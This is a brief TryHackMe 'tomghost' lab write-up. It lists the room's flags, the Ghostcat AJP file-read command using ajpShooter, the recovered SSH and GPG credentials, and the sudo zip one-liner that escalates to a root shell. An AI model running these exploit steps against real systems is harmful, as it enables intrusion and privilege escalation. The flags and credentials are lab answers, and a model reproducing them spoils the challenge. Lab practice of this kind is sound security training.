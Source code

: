 # TryHackMe tomghost

> Saikat Karmakar | Mar 11:2021

-------------------------------------------------------------------------------

## Task 1
1. Compromise this machine and obtain user.txt
```
THM{GhostCat_1s_so_cr4sy}
```
2. Escalate privileges and obtain root.txt
```
THM{Z1P_1S_FAKE}
```

--
-----------
***Notes***
-----------
clone ajpshooter
```
https://github.com/00theway/Ghostcat-CNVD-2020-10487
```
python3 ajpShooter.py  http://10.10.90.10:8080 8009 /WEB-INF/web.xml read

scp skyfuck@IP:/home/skyfuck/* . -> copy all the files 

ssh creds from the above command
```
skyfuck:8730281lkjlkjdqlksalks
```

gpg2john tryhackme.asc -> get the hash

gpg pass = alexandru

gpg --import tryhackme.asc

gpg --decrypt credential.pgp

user creds
```
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

priv esce 
```bash
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip


TF=$(mktemp -u)
sudo /usr/bin/zip $TF /etc/hosts -T -TT 'bash #'
sudo rm $TF
```
